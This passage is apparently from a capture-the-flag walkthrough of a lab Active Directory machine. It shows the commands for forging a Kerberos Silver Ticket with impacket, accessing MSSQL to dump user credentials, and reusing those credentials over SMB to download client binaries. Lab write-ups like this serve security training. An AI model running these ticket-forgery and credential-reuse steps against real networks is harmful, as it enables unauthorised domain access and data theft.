

And finally, the **SPN**

We already got that when we used the impacket `GetUserSPNs.py`

And finally, we save everything in a file so we can keep it handy



And now we're ready to carry out the **Silver Ticket Attack**

We'll use the impacket `ticketer.py` for this attack

# Silver Ticket Attack

```bash
ticketer.py -spn MSSQLSvc/dc1.scrm.local -domain-sid S-1-5-21-2743207045-1827831105-2542523200 -nthash B999A16500B87D17EC7F2E2A68778F05 -dc-ip 10.129.43.92 -domain scrm.local Administrator
```



Now we need to export the **KBR5CCNAME** environment variable so that its value is the file where the **TGS** was generated 
(We need this to authenticate with **Kerberos** using **tickets**)

```bash
export KRB5CCNAME=Administrator.ccache
```

And now we can try to connect to the **MSSQL** service

# Reconnecting to the MSSQL service

```bash
mssqlclient.py dc1.scrm.local -k
```



First, we start by listing all the databases

```cmd
SELECT name FROM sys.databases;
```



Now let's choose a database

```cmd
use ScrambleHR
```

Now let's list the tables in that database

```cmd
SELECT * FROM information_schema.tables
```



And finally, the content of those tables

```cmd
SELECT * FROM UserImport;
```



Now, using these new credentials, let's reconnect to the **SMB** service to see which shares we can list

# Reconnecting to the SMB service (new creds) 

```bash
smbclient.py scrm.local/MiscSvc:ScrambledEggs9900@dc1.scrm.local -k
```

After performing enumeration, we discovered two files **(ScrambleClient.exe : ScrambleLib.dll)**



Let's download both

```bash
get ScrambleClient.exe
get ScrambleLib.dll
```

    **At this point, we would need to set up a Python server to transfer these two files to a Windows machine and then elevate privileges from the Windows machine**


